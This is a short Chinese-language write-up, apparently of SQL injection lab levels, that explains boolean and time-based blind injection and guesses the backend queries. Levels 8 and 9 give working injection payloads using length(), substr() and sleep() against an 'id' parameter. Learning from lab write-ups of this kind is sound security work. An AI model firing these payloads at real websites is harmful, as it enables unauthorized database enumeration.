 > 当然此题也能使用盲注



猜测后端sql语句为：

```
select * from users where id="前端传入的数据" limit 0,1;
```

> 此题不回显查询到的数据到前端，只会回显sql报错





#### 7.	(无解)*





#### 8.	bool盲注

很普通的盲注。因为sql错误的话，前端会改变，所以可以用bool注入。

要是心情好，也可以用时间盲注



```
?id=1' and length(database())>1 %23
?id=1' and substr((database()),1,1)='s' %23
```





猜测后端sql语句为：

```
select * from users where id ='前端传过来的值' limit 0,1;
```





#### 9.	时间盲注

此题为很普通的时间盲注。

> 其实此题作者算是减轻了难度，从接收的响应里面可以看到正常回显和不正常回显的响应长度是不一样的(ps.当然这里前端看不出来，可能被注释掉了。)

> 所以另一个方面说。此题作者减轻了难度，也可以用bool盲注



playload:

```
?id=1' and if(substr((database()),1,1)='s',sleep(2),1)%23
```



猜测后端sql语句：

```
select * from users where id='前端传来的数据' limit 0,1;
```
